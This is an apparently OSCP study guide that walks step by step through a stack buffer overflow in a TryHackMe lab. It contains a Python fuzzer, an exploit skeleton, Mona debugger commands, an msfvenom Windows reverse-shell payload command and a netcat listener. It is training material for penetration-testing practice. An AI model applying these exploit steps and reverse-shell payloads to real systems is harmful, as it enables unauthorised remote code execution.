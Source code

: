 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

* Step 1: Ensure Mona is installed in Immunity Debugger

* Step 2: Launch Immunity Debugger, open relevant application, and run the application

* Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

* Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
* Step 5: Create exploit.py skeleton:
 
 Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
* Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

* Step 7: Paste output from Step 6 into payload variable of exploit.py
  
* Step 8: Restart application in Immunity, Run exploit.py from attack machine
 
* Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
 *PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*
 

* Step 10: Paste offset amount into the offset variable of exploit.py
 
* Step 11: Set retn variable to "BBBB" in exploit.py
 
* Step 12: Restart Application; Run exploit.py
 
* Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
* Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Step 15: Run Bad Characters Script

* Step 16: Paste Bad Characters output into payload variable of exploit.py

* Step 17: Re-open application in Immunity but do not run it

* Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

* Step 19: Start application in Immunity; Run exploit.py on attack machine

* Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

* Step 21: Remove first bad character in the list in Step 19 from payload variable in exploit.py

* Step 22: Reopen Application but do not run it

* Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

* Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

* Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb [BAD-CHARACTERS]
```

* Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

* Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

* Step 28: Paste generated payload into payload variable of exploit.py

* Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

* Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

* Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

* Step 32: Check listener, it should have a shell

## Reference

* https://tryhackme.com/room/bufferoverflowprep#
